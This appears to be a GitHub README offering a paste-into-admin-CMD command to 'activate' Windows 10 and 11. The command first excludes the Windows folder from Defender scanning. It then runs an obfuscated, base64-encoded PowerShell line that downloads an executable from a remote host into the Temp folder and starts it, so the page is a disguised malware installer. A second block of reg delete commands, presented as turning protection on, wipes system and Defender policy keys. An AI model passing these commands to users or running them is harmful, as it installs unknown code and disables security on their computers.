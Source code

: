 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
> CMD Commands:

'''
>  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
>  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
>  reg delete "HKLM\Software\Policies" /f
>  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
>  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
>  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
>  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
>  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
>  reg delete "HKCU\Software\Policies" /f
>  reg delete "HKLM\Software\Microsoft\Policies" /f
'''
